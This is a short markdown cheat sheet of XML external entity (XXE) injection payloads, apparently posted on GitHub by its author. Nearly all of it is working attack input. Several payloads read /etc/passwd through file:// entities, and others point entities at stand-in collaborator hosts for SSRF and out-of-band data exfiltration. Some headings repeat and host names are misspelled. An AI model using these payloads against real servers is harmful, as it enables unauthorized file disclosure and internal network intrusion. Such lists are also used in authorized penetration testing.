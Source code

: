 # My xxe payload
Coded by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Exploiting XXE using external entities to retrieve files
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### XXE to perform SSRF attacks
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://sarver-ip/"> ]>
```
### XXE TO SSRF
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collabrator"> %xxe; ]> //dont call xxe

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

